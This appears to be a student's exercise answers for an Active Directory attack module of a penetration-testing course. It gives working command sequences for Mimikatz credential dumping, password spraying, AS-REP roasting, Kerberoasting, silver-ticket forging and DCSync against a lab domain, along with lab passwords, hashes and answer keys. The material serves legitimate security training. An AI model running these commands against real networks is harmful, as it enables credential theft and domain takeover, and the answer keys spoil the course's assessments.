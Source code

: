 # 22.1.1
1. What is the name of the cryptographic hash function a computer calculates from the user's password?
```bash
Answer: NTLM hash
```

2. What kind of hashing algorithm is NTLM?
```bash
Answer: fast-hashing
```

# 22.1.2

1. What is the name of the request sent when a user logs into their AD-joined machine?
```bash
Answer: AS-REQ
```

2. What is the main authentication protocol used by Active Directory?
```bash
Answer: Kerberos
```

3. What is the short name of the request sent by the client that encrypts the TGT along with the current user, the target resource, and the timestamp?
```bash
Answer: TGS-REQ
```

# 22.1.3
1. Follow the steps outlined in this section to retrieve the cached NTLM hash. Furthermore, execute the _dir_ command and list the cached tickets. What is the Mimikatz command to dump hashes for all users logged on to the current system?
```bash
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.210.75
run powershell as admin
cd C:\Tools
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

Answer: sekurlsa::logonpasswords
```

# 22.2.1
1. Follow the steps outlined in this section and spray the password _Nexus123!_ with the three different tools introduced in this section. What is the minimum password length required in the target domain?
```bash
net accounts
Answer: 7
```

2. Spray the credentials of _pete_ against all domain joined machines with crackmapexec. On which machine is _pete_ a local administrator?
```bash
crackmapexec smb 192.168.210.70-76 -u 'pete' -p 'Nexus123!' -d corp.com --continue-on-success
Answer: CLIENT76
```

# 22.2.2

1. Follow the steps outlined in this section to obtain the plaintext password of _dave_ on Windows and Kali by performing AS-REP Roasting. What is the correct Hashcat mode to crack AS-REP hashes?
```bash
Answer: 18200
```

2. Once VM Group 2 is started, the domain _corp.com_ has been slightly modified. Use the techniques from this section to obtain another plaintext password by performing AS-REP Roasting and enter it as answer to this exercise.
```bash
impacket-GetNPUsers -dc-ip 192.168.224.70  -request -outputfile hashes.asreproast corp.com/pete
Nexus123!
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

Answer: Summerland1
```

# 22.2.3

1. Follow the steps outlined in this section to obtain the plaintext password of _iis_service_ on Windows and Kali by performing Kerberoasting. What is the correct Hashcat mode to crack TGS-REP hashes?
```bash
Answer: 13100
```

2. Once VM Group 2 is started, the domain _corp.com_ has been slightly modified. Use the techniques from this section to obtain another plaintext password by performing Kerberoasting and enter it as answer to this exercise. To crack the TGS-REP hash, create and utilize a rule file which adds a "1" to the passwords of **rockyou.txt**. To perform the attack, you can use the user _jeff_ with the password **HenchmanPutridBonbon11**.
```bash
mkdir /home/kali/shared
xfreerdp /u:jeff /p:"HenchmanPutridBonbon11" /v:192.168.224.75 /drive:Shared,/home/kali/shared
sudo hashcat -m 13100 /home/kali/shared/hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

Answer: MattLovesAutumn1
```

# 22.2.4
1. Follow the steps outlined in this section to forge a silver ticket for _jeffadmin_ in order to access the web page located at **http://web04**. Review the source code of the page and find the flag.
```bash
xfreerdp /u:jeff /p:"HenchmanPutridBonbon11" /v:192.168.224.75 /drive:Shared,/home/kali/shared
iwr -UseDefaultCredentials http://web04
cd ..\..\Tools\  
.\mimikatz.exe 
privilege::debug
sekurlsa::logonpasswords
look for Username: iis_service
look NTLM hash: 4d28cf5252d39971419580a51484ca09
on another powershell window> whoami /user and get SID S-1-5-21-1987370270-658905905-1781884369-1105
on mimikatz power shell > kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit
klist
iwr -UseDefaultCredentials http://web04
(iwr -UseDefaultCredentials http://web04).Content | findstr /i "OS{"
get the flag
```

# 22.2.5
1. Follow the steps outlined in this section to perform the dcsync attack to obtain the NTLM hash of the _krbtgt_ account. Enter the NTLM hash as answer to this question.
```bash
powershell
cd C:\Tools\
.\mimikatz.exe
lsadump::dcsync /user:corp\dave
get ntlm hash
store in kali file hashes.dcsync
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
at windows > lsadump::dcsync /user:corp\Administrator
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.214.70
impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.214.70
get the hash 
Answer: 1693c6cefafffc7af11ef34d1c788f47
```

2. **Capstone Exercise**: Once VM Group 2 is started, the domain _corp.com_ has been modified. Use the techniques from this Module to obtain access to the user account _maria_ and log in to the domain controller. To perform the initial enumeration steps you can use _pete_ with the password _Nexus123!_. You'll find the flag on the Desktop of the domain administrator on DC1. If you obtain a hash to crack, create and utilize a rule file which adds nothing, a "1", or a "!" to the passwords of **rockyou.txt**.
```bash
impacket-GetNPUsers -dc-ip 192.168.214.70  -request -outputfile hashes.asreproast corp.com/pete
nano maria.rule
:
$1
$!
 sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r ./maria.rule --force
xfreerdp /u:mike /p:"Darkness1099\!" /v:192.168.214.75
cd C:\Tools
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

maria NTLM
2a944a58d4ffa77137b2c587e6ed7626 

echo "2a944a58d4ffa77137b2c587e6ed7626" >> hash_maria.dcsync 
hashcat -m 1000 hash_maria.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

get output 2a944a58d4ffa77137b2c587e6ed7626:passwordt_1415 

xfreerdp /u:maria /p:"passwordt_1415" /v:192.168.214.70 /cert-ignore /d:corp.com
PS C:\Windows\system32> cd ../../../                                             PS C:\> cd .\Users\Administrator\Desktop\                                        PS C:\Users\Administrator\Desktop> ls    
PS C:\Users\Administrator\Desktop> cat .\flag.txt 
```

Answer: 

3. **Capstone Exercise**: Once VM Group 3 is started, the domain _corp.com_ has been modified. By examining leaked password database sites, you discovered that the password _VimForPowerShell123!_ was previously used by a domain user. Spray this password against the domain users _meg_ and _backupuser_. Once you have identified a valid set of credentials, use the techniques from this Module to obtain access to the domain controller. You'll find the flag on the Desktop of the domain administrator on DC1. If you obtain a hash to crack, reuse the rule file from the previous exercise.